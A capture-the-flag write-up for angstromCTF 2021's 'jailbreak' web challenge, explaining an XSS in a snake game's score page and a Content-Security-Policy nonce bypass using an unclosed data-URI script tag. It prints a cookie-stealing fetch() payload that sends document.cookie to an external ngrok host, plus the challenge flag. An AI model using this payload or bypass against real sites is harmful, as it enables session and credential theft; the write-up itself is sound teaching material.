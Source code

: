 # jailbreak - angstromCTF 2021

- Category: Web
- Points: 130
- Solves: 113
- Solved by: SM_SC2, drw0if

## Description

I've made a new game that is sure to make all the Venture Capitalists want to invest! Care to try it out?

[NOM NOM NOM (the game)](https://nomnomnom.2021.chall.actf.co/)

[source](dist/deploy.zip)

## Overview

We have a "Snake"-like game that asks for our username and sends it with our score to `/record` when we lose.

![game](pictures/game.png)

Then, we are redirected to `shares/{shareName}` if the score is greater than 1, as we can see from the code:

```javascript
app.post('/record', function (req, res) {
	if (req.body.name > 100) {
		return res.status(400).send('your name is too long! we don\'t have that kind of vc investment yet...');
	}

	if (isNaN(req.body.score) || !req.body.score || req.body.score < 1) {
		res.send('your score has to be a number bigger than 1! no getting past me >:(');
		return res.status(400).send('your score has to be a number bigger than 1! no getting past me >:(');
	}

	const name = req.body.name;
	const score = req.body.score;
	const shareName = crypto.randomBytes(8).toString('hex');

	shares[shareName] = { name, score };

	return res.redirect(`/shares/${shareName}`);
})
```

Our username is printed into `/shares/${shareName}` page without any escape. So it's vulnerable to XSS.

```javascript
app.get('/shares/:shareName', function(req, res) {
	// TODO: better page maybe...? would attract those sweet sweet vcbucks
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	const share = shares[req.params.shareName];
	const score = share.score;
	const name = share.name;
	const nonce = crypto.randomBytes(16).toString('hex');
	let extra = '';

	if (req.cookies.no_this_is_not_the_challenge_go_away === nothisisntthechallenge) {
		extra = `deletion token: <code>${process.env.FLAG}</code>`
	}

	return res.send(`
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		${extra}${extra ? '<br /><br />' : ''}
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of ${score}! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by ${name}
		<script nonce='${nonce}'>
function report() {
	fetch('/report/${req.params.shareName}', {
		method: 'POST'
	});
}

document.getElementById('reporter').onclick = () => { report() };
		</script> 
		
	</body>
</html>`);
});
```

username: `<b>test</b>`

![xss](pictures/xss.png)

Also, it prints the flag if we provide `no_this_is_not_the_challenge_go_away` cookie.

If we click on 'Report' button, the page is sent to `/report/{shareName}`

```javascript
app.post('/report/:shareName', async function(req, res) {
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	await visiter.visit(
		nothisisntthechallenge,
		`http://localhost:9999/shares/${req.params.shareName}`
	);
})
```

and is visited through a puppeteer instance by `visiter.js`

```javascript
async function visit(secret, url) {
	const browser = await puppeteer.launch({ args: ['--no-sandbox'], product: 'firefox' })
	var page = await browser.newPage()
	await page.setCookie({
		name: 'no_this_is_not_the_challenge_go_away',
		value: secret,
		domain: 'localhost',
		samesite: 'strict'
	})
	await page.goto(url)

	// idk, race conditions!!! :D
	await new Promise(resolve => setTimeout(resolve, 500));
	await page.close()
	await browser.close()
}
```

## Solution

We know that `/shares/{shareName}` is vulnerable to XSS and `no_this_is_not_the_challenge_go_away` cookie is accessible from javascript because `httpOnly` is not set.

So, we have to steal the cookie and make a GET request to `/shares/{shareName}`.

To steal the cookie, we have to inject the following script (we are using ngrok as HTTP bin)

```javascript
fetch('https://2f155d482279.ngrok.io?c=' + document.cookie, { mode: 'no-cors' })
```

Unfortunately, the page uses the CSP `script-src` which blocks scripts execution that doesn't have a valid `nonce`.

```html
<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-e45da5b8e5f5f43cc48806aaabdbccfb'">
```

The policy seems correctly implemented, so there is no way to bypass it.

Looking closer at the HTML code, we can see that what we inject is inserted immediately before a script with a valid nonce. So we have to break this script tag and inject our code.

```html
<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <b>test</b>
		<script nonce='07fdcf843e8050eb15575ae4a6135f94'>
function report() {
```

The solution is loading js through the `src` attribute and leave the tag open. In this way, Firefox, trying to fix the code, will interpret the second `<script` as an attribute.

```html
<script src="data:text/javascript,{script}"
```

## Exploits execution

1. Configure exploits with your `http_bin`
2. Run `py ./exploit.py` and take note of the `shareName`
3. Run `py ./report.py {shareName}`
4. Get the cookie value from your HTTP bin
5. Run `py ./getflag.py {shareName} {cookie_value}`
6. Get the flag from the response

![flag](pictures/flag.png)

## Flag

```
actf{w0ah_the_t4g_n0mm3d_th1ng5}
```